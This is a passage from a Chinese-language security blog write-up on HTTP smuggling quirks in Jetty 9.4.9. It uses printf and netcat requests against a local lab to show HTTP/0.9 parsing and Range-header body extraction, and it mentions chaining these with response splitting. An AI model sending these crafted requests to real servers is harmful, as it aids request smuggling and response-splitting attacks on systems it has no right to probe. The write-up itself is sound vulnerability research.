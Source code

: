 
对于 CVE-2017-7658 我们就不再探究了，因为之前也提过了，我们主要来看另外两个比较有意思的地方。

### HTTP/0.9

环境依旧可以使用我构建的 [jetty lab 环境](https://github.com/ZeddYu/HTTP-Smuggling-Lab/tree/master/jetty)，然后我们用如下方式发送一个标准的 HTTP/0.9 请求：

```plain
printf 'GET /?test=4564\r\n'|nc -q 1 127.0.0.1 8994
```

得到一个 400 响应：

```plain
HTTP/1.1 400 HTTP/0.9 not supported
Content-Type: text/html;charset=iso-8859-1
Content-Length: 65
Connection: close
Server: Jetty(9.4.9.v20180320)

<h1>Bad Message 400</h1><pre>reason: HTTP/0.9 not supported</pre>
```

接着我们加上版本标识：

```plain
printf 'GET /?test=4564 HTTP/0.9\r\n\r\n'|nc -q 1 127.0.0.1 8994
```

虽然这是 HTTP/0.9 不支持的格式，但是也会有意外的收获，得到一个 200 响应：

```plain
<head>
<title>Sample "Hello, World" Application</title>
</head>
<body bgcolor=white>

<table border="0">
<tr>
...
```

这里的响应没有 headers，只有 body，也就是这个请求被 HTTP/0.9 进行了解析。

而且更有意思的是，添加上 HTTP/0.9 不支持的 headers 也会有意外的收获，这里我们添加一个提取响应包部分内容的 header：

```plain
printf 'GET /?test=4564 HTTP/0.9\r\n'\
'Range: bytes=36-42\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994

, World
```

会发现 body 内容被我们进行了提取，结合我们上文提到的结合 HTTP Versio 进行的 HTTP Response Splitting，我们可以进行各种花式攻击

### Chunk size attribute truncation
